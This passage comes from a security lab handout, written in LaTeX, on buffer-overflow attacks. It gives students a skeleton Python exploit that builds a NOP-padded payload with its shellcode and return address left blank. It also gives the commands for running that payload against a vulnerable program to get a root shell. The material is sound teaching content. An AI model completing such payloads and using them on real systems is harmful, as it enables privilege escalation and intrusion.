 To exploit the buffer-overflow vulnerability in the target program,
we need to prepare a payload, and save it inside \texttt{badfile}. 
We will use a Python program to do that.
We provide a skeleton program called \texttt{exploit.py}, which
is included in the lab setup file.
The code is incomplete, and students need to replace some of the essential
values in the code.


\newcommand{\needtochange}{\ding{73} Need to change \ding{73}}


\begin{lstlisting}[language=python, caption={\texttt{exploit.py}}]
#!/usr/bin/python3
import sys

shellcode= (
  ""                    # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00           # (*@\needtochange@*)
offset = 0              # (*@\needtochange@*)

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}


After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  


\begin{lstlisting}
$./exploit.py     // create the badfile
$./stack-L1       // launch the attack by running the vulnerable program
# <---- Bingo! You've got a root shell! 
\end{lstlisting}

In your lab report, in addition to providing screenshots to demonstrate
your investigation and attack, 
you also need to explain how the values used in your 
\texttt{exploit.py} are decided. These values are the most 
important part of the attack, so a detailed explanation can help
the instructor grade your report. Only demonstrating a successful
attack without explaining why the attack works will not 
receive many points. 



